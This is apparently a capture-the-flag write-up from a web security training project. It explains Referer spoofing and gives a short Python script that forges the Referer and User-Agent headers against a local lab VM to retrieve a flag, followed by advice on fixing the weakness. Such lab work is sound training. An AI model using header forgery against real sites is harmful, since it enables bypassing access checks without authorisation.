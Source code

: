 # Referer spoofing

### Introduction
Referer spoofing involves modifying the Referer header of an HTTP request to deceive the server into thinking the request originates from a trusted source.

### Procedure
Upon inspecting the page's source code, the suggestion is to modify the Referer header of the request to `https://www.nsa.gov/` and the browser's User-Agent to `ft_bornToSec`. Consequently, we need to send a GET request to the server with these adjusted headers.

### Program
We created a program designed to dispatch a GET request to the server, but with altered `Referer` and `User-Agent` headers. The function will subsequently return the response of the request, which should contain the flag we are looking for.
``` python
def try_referer_spoofing():
	encoded_params = urllib.parse.urlencode({ 'page': 'b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f' })

	url = 'http://192.168.56.2/?{}'.format(encoded_params)

	headers = {
		'Referer': "https://www.nsa.gov/",
		'User-Agent': "ft_bornToSec"
	}

	response = requests.get(url, headers=headers)

	return response.text
```

### How to fix
It is crucial for the security of a service not to rely solely on these insecure headers. The server should never trust the information sent by clients. Therefore, it is advisable to implement an alternative security system rather than depending solely on the Referer header.

### Sources
[Referer spoofing](https://en.wikipedia.org/wiki/Referer_spoofing)